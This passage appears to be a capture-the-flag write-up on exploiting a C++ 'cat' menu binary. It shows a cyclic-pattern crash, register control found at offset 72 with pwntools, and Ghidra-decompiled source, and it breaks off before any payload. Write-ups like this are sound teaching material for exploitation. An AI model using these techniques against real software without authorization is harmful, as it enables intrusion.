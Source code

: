 ```
[B] Name a cat
[C] Pet a cat
[Q] Quit
>>> A
There are 64 cats.
Cat #1: Unnamed :( (Manx cat)
...
Cat #61: Unnamed :( (Persian cat)
Cat #62: aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaa (American Shorthair)

Program received signal SIGSEGV, Segmentation fault.
...
RAX  0x616161616161616a ('jaaaaaaa')
...
$ pwn cyclic -n 8 -l jaaaaaaa
72
```

So it looks like we end up jumping to whatever address we place 72 characters into our input. How exactly does this work? And, more importantly, where do we want to branch to? Remember that the binary is statically linked, meaning we probably aren't lucky enough to have any [`one_gadget`s](https://github.com/david942j/one_gadget) laying around.

Let's take a look under the hood with the help of ghidra:
```c
int main(void)

{
  long *plVar1;
  ctype<char> cVar2;
  int iVar3;
  time_t tVar4;
  char **ppcVar5;
  basic_ostream *pbVar6;
  basic_ostream<char,std::char_traits<char>> *pbVar7;
  char menu_selection;
  
  tVar4 = time((time_t *)0x0);
  srand((uint)tVar4);
  iVar3 = rand();
  ppcVar5 = (char **)(cat_banners.
                      super__Vector_base<std::__cxx11::basic_string<char,_std::char_traits<char>,_st d::allocator<char>_>,_std::allocator<std::__cxx11::basic_string<char,_std::cha r_traits<char>,_std::allocator<char>_>_>_>
                      ._M_impl._0_8_ +
                     ((ulong)(long)iVar3 %
                     (ulong)(cat_banners.
                             super__Vector_base<std::__cxx11::basic_string<char,_std::char_traits<ch ar>,_std::allocator<char>_>,_std::allocator<std::__cxx11::basic_string< char,_std::char_traits<char>,_std::allocator<char>_>_>_>
                             ._M_impl._8_8_ -
                             cat_banners.
                             super__Vector_base<std::__cxx11::basic_string<char,_std::char_traits<ch ar>,_std::allocator<char>_>,_std::allocator<std::__cxx11::basic_string< char,_std::char_traits<char>,_std::allocator<char>_>_>_>
                             ._M_impl._0_8_ >> 5)) * 0x20);
  pbVar6 = std::__ostream_insert<char,std::char_traits<char>>
                     ((basic_ostream *)std::cout,*ppcVar5,(long)ppcVar5[1]);
  std::endl<char,std::char_traits<char>>(pbVar6);
  std::__ostream_insert<char,std::char_traits<char>>
            ((basic_ostream *)std::cout,"Searching for cats...",0x15);
  std::endl<char,std::char_traits<char>>((basic_ostream *)std::cout);
  gen_cats();
```